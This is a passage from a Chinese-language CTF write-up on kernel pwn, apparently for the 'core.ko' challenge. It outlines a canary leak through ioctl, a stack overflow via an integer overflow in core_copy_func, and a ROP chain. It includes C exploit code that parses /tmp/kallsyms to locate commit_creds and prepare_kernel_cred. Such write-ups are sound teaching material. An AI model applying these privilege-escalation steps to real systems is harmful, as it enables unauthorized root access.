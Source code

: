大伙学到了内核 pwn，那汇编功底自然不必说，我就不解释这段代码功能了。

### 3. 攻击思路

现在开始咱们的攻击思路思考，在上面介绍各个函数的时候我也稍微讲了点。我们所做的事主要如下：

> 1.  利用 ioctl 中的选项 2. 修改 off 为 0x40
>     
> 2.  利用 core_read, 也就是 ioctl 中的选项 1, 可将局部变量 v5 的 off 偏移地址打印, 经过调试可发现这里即为 canary
>     
> 3.  当咱们打印了 canary, 现在即可进行栈溢出攻击了, 但是溢出哪个栈呢, 我们发现 ioctl 的第三个选项中调用的函数 `core_copy_func`, 会将 bss 段上的 name 输入在栈上, 输入的字节数取决于咱们传入的数字, 并且此时他又整型溢出漏洞, 好, 就决定冤大头是他了
>     
> 4.  core.ko 所实现的系统调用 write 可以发现其中可以将我们传入的值写到 bss 段中的 name 上面, 天助我也, 所以咱们就可以在上面适当的构造 rop 链进行栈溢出了
>     

大伙看到这里是不是觉得有点奇怪, 欸, 刚才不是说要泄露地址码, 这兄弟是不是讲错了, 就这? 大家不要慌, 我这正要讲解, 从上面的 init 脚本中我们可以看到这一句:

```
cat /proc/kallsyms > /tmp/kallsyms

```

其中 /proc/kallsyms 中包含了内核中所有用到的符号表, 而处于用户态的我们是不能访问的, 所以出题人贴心的将他输出到了 / tmp/kallsyms 中, 这就使得我们在用户态也依然可以访问了, 所以我们还得在 exp 中写一个文件遍历的功能, 当然这对于学过系统编程的同学并不在话下,(可是我上这课在划水....)  
这里贴出代码给大伙先看看

```
void get_function_address(){
        FILE* sym_table = fopen("/tmp/kallsyms", "r");        // including all address of kernel functions,just like the user model running address.
        if(sym_table == NULL){
                printf("\033[31m\033[1m[x] Error: Cannot open file \"/tmp/kallsyms\"\n\033[0m");
                exit(1);
        }
        size_t addr = 0;
        char type[0x10];
        char func_name[0x50];
        // when the reading raises error, the function fscanf will return a zero, so that we know the file comes to its end.
        while(fscanf(sym_table, "%llx%s%s", &addr, type, func_name)){
                if(commit_creds && prepare_kernel_cred)                // two addresses of key functions are all found, return directly.
                        return;
                if(!strcmp(func_name, "commit_creds")){                // function "commit_creds" found
                        commit_creds = addr;
                        printf("\033[32m\033[1m[+] Note: Address of function \"commit_creds\" found: \033[0m%#llx\n", commit_creds);
                }else if(!strcmp(func_name, "prepare_kernel_cred")){
                        prepare_kernel_cred = addr;
                        printf("\033[32m\033[1m[+] Note: Address of function \"prepare_kernel_cred\" found: \033[0m%#llx\n", prepare_kernel_cred);
                }
        }

}

```

